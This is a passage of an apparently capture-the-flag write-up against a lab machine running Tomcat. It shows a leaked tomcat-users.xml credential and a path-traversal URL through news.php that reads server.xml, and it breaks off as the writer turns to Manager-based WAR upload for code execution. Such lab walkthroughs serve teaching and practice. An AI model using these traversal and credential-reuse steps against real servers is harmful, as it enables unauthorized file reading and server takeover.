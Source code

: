```xml
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

We can connect with `tomcat` / `$3cureP4s5w0rd123!` to http://megahosting.htb:8080/manager/html

The manager interface seems to be enabled only on localhost but we may
upload files without it.

We can download `server.xml`
http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/etc/server.xml

```xml
...
      <Host name="localhost"  appBase="webapps"
            unpackWARs="true" autoDeploy="true">
...
```

So it's accessible only from localhost but will unpack WARs and auto deploy
them.

By reading `web.xml` we can see that `.jsp` are allowed.

Now it's time to read documentation!

## HTTP exploitation: File upload & RCE

Let's see the [Supported Manager Commands](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands).
